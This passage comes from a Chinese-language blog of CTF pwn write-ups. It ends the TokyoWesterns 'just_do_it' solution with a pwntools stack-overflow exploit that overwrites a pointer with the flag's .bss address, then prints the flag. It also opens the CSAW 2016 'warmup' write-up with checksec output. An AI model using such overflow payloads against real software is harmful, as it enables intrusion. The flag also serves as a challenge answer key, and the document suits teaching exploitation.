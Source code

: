 嗯...这样就很清晰了。通过 IDA 直接看 `flag` 在 `.bss` 中的地址：

![](https://ghproxy.net/https://raw.githubusercontent.com/CuB3y0nd/picx-images-hosting/master/.51eg64dvpk.avif)

当然，如果你想验证它是不是真我们所想覆盖了 `v6` 让 `puts` 输出 `flag` 的内容：

![](https://ghproxy.net/https://raw.githubusercontent.com/CuB3y0nd/picx-images-hosting/master/.1vyy76k20n.avif)

## Exploit

```python
#!/usr/bin/python3

from pwn import *

context(os='linux', arch='amd64', log_level='debug', terminal='kitty')

target = process('./just_do_it')

payload = b'A' * 0x14 + p32(0x0804A080)

target.sendline(payload)
target.interactive()
```

## Flag

Flag: `TWCTF{pwnable_warmup_I_did_it!}`

# CSAW 2016 Quals Warmup

## Information

- Category: Pwn
- Points: 50

## Description

> So you want to be a pwn-er huh? Well let's throw you an easy one ;)

## Write-up

```plaintext
λ ~/ file warmup
warmup: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=ab209f3b8a3c2902e1a2ecd5bb06e258b45605a4, not stripped
λ ~/ pwn checksec warmup
[*] '/home/cub3y0nd/warmup'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
